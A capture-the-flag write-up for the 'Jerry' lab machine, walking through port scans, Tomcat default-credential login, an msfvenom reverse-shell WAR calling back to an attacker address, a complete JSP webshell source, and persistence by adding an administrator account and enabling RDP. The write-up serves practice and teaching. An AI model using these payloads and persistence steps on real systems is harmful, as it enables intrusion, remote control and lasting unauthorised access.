

# Jerry

## Port Scans

### Discovery Scan

```
sudo nmap -sS -Pn 10.10.10.95 -p-
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 20:48 IST
Completed SYN Stealth Scan at 20:55, 454.42s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).
Scanned at 2023-09-26 20:48:22 IST for 455s
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 454.51 seconds
           Raw packets sent: 131360 (5.780MB) | Rcvd: 455 (20.020KB)
```

### Vulnerability Scan

```
sudo nmap -sV -sC  10.10.10.95 -p 8080
```

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-26 21:12 IST

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

NSE: Script Post-scanning.
Completed NSE at 21:13, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.57 seconds
           Raw packets sent: 5 (196B) | Rcvd: 2 (72B)
```

## Initial Access

Upon visiting the http://10.10.10.95:8080 on a browser we are greeted with the Apache tomcat default landing page.

<figure><figcaption><p>Target Home Page</p></figcaption></figure>

### Using default credentials to gain access to manager panel

For the Manager Console we are prompted with a basic authentication.

<figure><figcaption><p>Basic Authentication</p></figcaption></figure>

When we supply some wrong "default" credentials (or we can just cancel the request) we are shown an error page which has the default credentials.

<figure><figcaption><p>Default credentials</p></figcaption></figure>

Now with the default credentials (tomcat:s3cret) we can login to the Manager Panel.

<figure><figcaption><p>Manager Console</p></figcaption></figure>

Below in the server details section we can find the target OS details as well.

<figure><figcaption><p>Server Information</p></figcaption></figure>

### Remote code execution and reverse shell using war file

We generate a backdoor war file using `msfvenom`. The target OS is windows so we generate a windows reverse tcp shell.


```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=9999 -f war -o  exploit.war
```


After creating the payload we take a look at the jsp file created by `msfvenom` as this would be required to trigger the execution of the payload.

```
unzip -l exploit.war
```

<figure><figcaption><p>Contents of the payload</p></figcaption></figure>

We setup a netcat listener to catch the reverse shell on our attacker machine:

```
nc -vnlp 9999
```

Now we visit the URL [http://10.10.10.95:8080/exploit/uidimxzbaiboqgd.jsp](http://10.10.10.95:8080/exploit/uidimxzbaiboqgd.jsp) to trigger the payload

<figure><figcaption><p>Trigger the payload</p></figcaption></figure>

And we get the shell after a few seconds logged in as `nt authority\system` user.

<figure><figcaption><p>Reverse shell</p></figcaption></figure>

### Remote Code Execution and Web shell

We will use the following code to launch a jsp webshell on the server.&#x20;

```javascript
<%@page import="java.io.*, java.util.*, javax.xml.bind.*, java.net.*" %>
    <script>
        document.write("<p>");
        var html = "<form method=post action='cmd.jsp'>\
                        <input name='c' type=text><input type=submit value='Run'>\
                    </form><hr>\
                    <form action='cmd.jsp' method=post>\
                        Upload dir: <input name='a' type=text value='.'><br>\
                        Select a file to upload: <input name='n' type='file' id='f'>\
                        <input type='hidden' name='b' id='b'>\
                        <input type='submit' value='Upload'>\
                    </form><hr>";
        var div = document.createElement('div');
        div.innerHTML = html;
        document.body.insertBefore(div, document.body.firstChild);

        var handleFileSelect = function (evt) {
            var files = evt.target.files;
            var file = files[0];

            if (files && file) {
                var reader = new FileReader();

                reader.onload = function (readerEvt) {
                    var binaryString = readerEvt.target.result;
                    document.getElementById('b').value = btoa(binaryString);
                };

                reader.readAsBinaryString(file);
            }
        };
        if (window.File && window.FileReader && window.FileList && window.Blob) {
            document.getElementById('f').addEventListener('change', handleFileSelect, false);
        } else {
            alert('The File APIs are not fully supported in this browser.');
        }
    </script>
    <%!public String v(String w) { 
          String x="" ;
          try { 
            x=URLDecoder.decode(w,"UTF-8");
          }catch(Exception e){}
          return x;
       }
    %>
    <%
      String o,l,d;o=l=d=""; 
      DataInputStream r=new DataInputStream(request.getInputStream());
      while((l=r.readLine())!=null) { 
          d+=l;
      }
      if(d.indexOf("c=")>=0) { 
        String g=v(d.substring(2));
        String s;
        try { 
          Process p=Runtime.getRuntime().exec(g);
          DataInputStream i=new DataInputStream(p.getInputStream());
          out.print("<pre>");
          while((s=i.readLine())!=null) { 
            o+=s.replace("<","&lt;").replace(">","&gt;")+"<br>";
          }
        } catch(Exception e) {
          out.print(e);
        }
      } else {
        if(d.length()>1){
          int b=d.indexOf("b=");
          int n=d.indexOf("n=");
          byte[] m=DatatypeConverter.parseBase64Binary(v(d.substring(b+2)));
          String f=v(d.substring(2,n-1))+File.separator+v(d.substring(n+2,b-1));
          try { 
            OutputStream stream=new FileOutputStream(f);
            stream.write(m);
            o="Uploaded: "+f;
          }catch(Exception e){ 
            out.print(e);
          }
        }
      }
    %>
<%=o%>
```

We pack the code into a war file using `zip` command.&#x20;

```bash
zip cmd.war cmd.jsp
```

Upload the war file using the management console and get the webshell instance. &#x20;

<figure><figcaption><p>JSP webshell</p></figcaption></figure>

This webshell can be used to dump the flags and run commands. I generally like to use it as a backup shell to clear out any hangup tasks that I may have started in my netcat shell and connect back my reverse shell.

## Post Exploitation

### Gaining persistence via RDP

We add a user using net user utility.&#x20;

```
net user FValkyrie_17 Test@1234 /add
net localgroup administrators FValkyrie_17 /add
net localgroup "Remote Desktop Users" FValkyrie_17 /add
```

<figure><figcaption><p>Creating a new user with privileged access</p></figcaption></figure>

In case you forget setting a password like I did you can set it as follows:

```
net user FValkyrie_17 Test@1234
```

Disable firewall rules using:

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

And enable RDP using:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

<figure><figcaption><p>Enabling RDP</p></figcaption></figure>

Now on the attacker machine we can RDP into the target using `xfreerdp` tool.

```
xfreerdp /u:FValkyrie_17 /p:Test@1234 /v:10.10.10.95
```

<figure><figcaption><p>Establishing RDP connection</p></figcaption></figure>

<figure><figcaption><p>RDP session</p></figcaption></figure>
